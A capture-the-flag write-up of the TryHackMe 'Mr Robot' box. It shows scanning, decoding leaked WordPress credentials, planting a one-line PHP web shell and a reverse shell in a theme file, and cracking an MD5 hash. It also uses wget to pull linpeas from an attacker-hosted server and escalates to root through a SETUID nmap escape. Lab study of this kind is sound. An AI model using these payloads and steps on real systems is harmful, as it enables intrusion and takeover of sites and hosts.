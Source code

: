 
## Mr Robot CTF - Try Hack Me

## 1. Overview

This one was a great box to come back into the game. It had a littlebit of everything. And not SSH for once, which is really uncommon. Here is a list over the things we went through on this box:

- NMAP
- Gobuster
- Wordpress reverse shell
- Stabalizing shell
- Hashcracking with hashcat
- Linpeas
- GTFO bins and SETUID Binaries
- NMAP interactive to root


Link to the machine: https://tryhackme.com/room/mrrobot



## 2. Oppgaver

### 2.1 Key 1

```sh
export IP=10.10.207.197
```

Kjører først en **NMAP** scan:
```sh
nmap -sV -sC -oA nmap/ $IP
```
NMAP sscan shows two open ports. Note that ssh port is closed

- ***80 http***
- ***443 ssl/http***



Kjører først en **Gobuster** scan:
```sh
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.txt
```

Outputs the following:
```sh
/images               (Status: 301) [Size: 234] [--> http://10.10.55.43/images/]
/blog                 (Status: 301) [Size: 232] [--> http://10.10.55.43/blog/]
/sitemap              (Status: 200) [Size: 0]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.55.43/feed/]
/login                (Status: 302) [Size: 0] [--> http://10.10.55.43/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.55.43/0/]
/video                (Status: 301) [Size: 233] [--> http://10.10.55.43/video/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.55.43/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.55.43/image/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.55.43/feed/atom/]
/wp-content           (Status: 301) [Size: 238] [--> http://10.10.55.43/wp-content/]
/admin                (Status: 301) [Size: 233] [--> http://10.10.55.43/admin/]
/audio                (Status: 301) [Size: 233] [--> http://10.10.55.43/audio/]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2657]
/css                  (Status: 301) [Size: 231] [--> http://10.10.55.43/css/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.55.43/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 239] [--> http://10.10.55.43/wp-includes/]
Progress: 911 / 220561 (0.41%)                                                      [ERROR] 2021/10/24 08:20:44 [!] Get "http://10.10.55.43/README": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/js                   (Status: 301) [Size: 230] [--> http://10.10.55.43/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.55.43/Image/]
```

it also outputed /robots, and there we found a file called `key-1-of-3.txt` which contained the key for task one.


### 2.2 Key 2

When we go to $IP/License we see a lot of text, and scrolling down we find the following string: `ZWxsaW90OkVSMjgtMDY1Mgo=`.
We convert it from base64 and we get the following text: `elliot:ER28-0652`

This seemes like a username and password. We use it as credentials for the wp-login.

In the `THEMES` folder on the left hand pane there is a `Editor` tab that gives us the control over each theme structure and pages. We can now edit each page the way we want.

We then try to edit `archives.php` with different php scripts to see if it works:

```php
<?php system($REQUEST['testy']); ?>
```

OR:

```php
<?php echo "Hello world!<br>" ?>
```

we get feedback on the php line, which means we can edit in our own rev shell. We use Pentestmonkeys php rev shell.

We copy the contents of the php-rev-shell.php into the archives.php page, and then when we listen on the same port and access the file through our broswer we get a reverse shell.

- http://10.10.207.197/wp-content/themes/twentyfifteen/archive.php

This is very usefull for taking over a **wordpress** site, if it is misconfigured.



#### Updating to a **stable shell**:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Do Ctrl + z

```bash
stty raw -echo
fg
export TERM=xterm
```


In the /home/robots folder we see a md5 hash as the password for the robot user:
`robot:c3fcd3d76192e4007dfb496cca67e13b`

Cracked it with **Hashcat**, and the password was:
`robot:abcdefghijklmnopqrstuvwxyz`

Line for **hashcat**
`hashcat -m 0 password-raw-md5.txt fsocity.dic`

NOTE: The hashfile that you use should ONLY have the hash, and not the username in there. Sound obvious, but i fucked up the first time because of it.

Output:
```bash
Session..........: hashcat
Status...........: Exhausted
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Tue Oct 26 16:26:12 2021, (1 sec)
Time.Estimated...: Tue Oct 26 16:26:13 2021, (0 secs)
Guess.Base.......: File (fsocity.dic)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1322.2 kH/s (0.51ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 858085/858085 (100.00%)
Rejected.........: 0/858085 (0.00%)
Restore.Point....: 858085/858085 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 202055923456456e3f78e3f -> ABCDEFGHIJKLMNOPQRSTUVWXYZ
```

When we had the password we could simply log into the box by using this command to switch user (it does require a real shell - see above on how to stabelize shell):

```bash
su - robot
```

Then we type the password and we get a shell as the `robot` user.

Finally we can cat the `key2-of-3.txt` file in the robot home directory.



### 2.3 Key 3

Now we run **linpeas**:
This tended to crash the shell each time I tried to cat the output file. So I will just add the commands:

On our machine:
```sh
python3 -m http.server 9002
```

On the victim machine:
```sh
wget "http://"OUR_IP":9002/linpeas.sh"
```

This will download Linpeas.sh, and we can use chmod +x and then run it on the victim machine.

The output gave us a red flag on **NMAP** as a potential set UID binary. NMAP was run as `root`. So we go to the good old trusty `gtfobins` and find the NMAP command. It tells us that we can spawn a shell from the interactive mode in NMAP. And we get a root shell by simply doing the following:

```sh
nmap --interactive
!sh
```

- *Source*: https://gtfobins.github.io/gtfobins/nmap/
